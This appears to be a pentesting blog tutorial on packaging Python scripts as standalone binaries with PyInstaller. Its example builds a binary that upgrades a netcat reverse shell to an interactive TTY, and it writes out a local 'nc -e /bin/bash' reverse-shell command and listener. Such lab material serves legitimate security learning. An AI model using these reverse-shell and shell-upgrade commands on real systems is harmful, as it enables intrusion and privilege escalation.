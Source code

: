 ```yaml
---
title: "Tutorial: Create Binary Versions of Python Tools"
date: 2020-11-07T15:34:30-04:00
categories:
  - tutorial
tags:
  - python
  - pentesting
  - tools
  - linux
  - windows
---
```


With **PyInstaller** you can create stand-alone binaries that run on machines that do not have Python installed.

On Linux it will create an executable ELF binary.  
On Windows it creates a P32 or P32+ exe.  

Despite the crude method of including an entire interpreter, the minimum file size for a 64bit ELF binary is around 4 MB and the Windows equivalent is around 7 MB. So only marginally worse than your average .NET Hello World /s.


## Cross-Compiling

Here comes the bad news, there is no cross-compiling build-in.  
If you want to create Windows binaries, then you will have to do so on Windows and the same is true for Linux.  

Also please note that it does matter whether you use the 32bit or 64bit version of the Python interpreter. Using the 64bit Linux interpreter results in a 64bit ELF binary.

But I assume you have some VM's lying around that can be used.  
[Wine might also work](https://stackoverflow.com/a/35605479), but I have not tried that.


## Install

On linux you can just use `pip3 install PyInstaller` or `pip install PyInstaller` for the 2.7 version.

On Windows you can also use `python.exe -m pip install PyInstaller`.

I will use the 3+ version of Python for the following examples. But the process should be the same regardless of what version you use. Just make sure the Interpreter you use for compiling the binary is the same one the script would use.


## Example: Upgrade a Linux Reverse Shell

If you have done CTF's or network pentesting, then you have probably encountered this python snippet before: 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This spawns a fully interactive pseudo-terminal that allows you to run commands such as `su` or `sudo`, which can be pretty handy if you are stuck with a semi-interactive reverse shell.

There are other ways to spawn a fully-interactive shell besides python, but this will do as a simple example.

Let's create a standalone-binary version of this snippet.

First create a python script file `upgrade.py`:
```python
#!/usr/bin/env python3
import pty
pty.spawn("/bin/bash")
```

Use the following command in order to create a pyinstaller binary:

```bash
pyinstaller --onefile upgrade.py
```

The `--onefile` parameter tells pyinstaller that all libraries should be packed into the binary.

If this finishes successfully, then you will find the created binary in the /dist subfolder.

### Does It Work?

Make sure the created `upgrade` binary is executable (`chmod +x upgrade`).

Listen for a shell with netcat:

```bash
nc -vlnp 4455
```

We will simulate a reverse shell as user www-data using sudo.  
This of course assumes you have such a user on your system and the required sudo permissions.  

Do this in a second shell:
```bash
sudo -u www-data bash -c "/usr/bin/nc localhost 4455 -e /bin/bash"
```

In the first terminal you will receive the semi-interactive netcat reverse shell (added new lines for clarity):

```bash
$ nc -vlnp 4455
listening on [any] 4455 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33470

whoami
www-data

tty
not a tty

ls -l
total 4000
-rwxr-xr-x 1 kali kali 4092904 Jan 15 19:42 upgrade
```

Run our binary:

```bash
./upgrade
www-data@kali:/tmp/upgrade/dist$ tty
tty
/dev/pts/2
www-data@kali:/tmp/upgrade/dist$ 
www-data@kali:/tmp/upgrade/dist$ su kali
su kali
Password: hunter2

kali@kali:/tmp/upgrade/dist$
```

The `tty` command confirms our upgraded shell counts as a terminal. You should be able to do interactive commands like `su` now.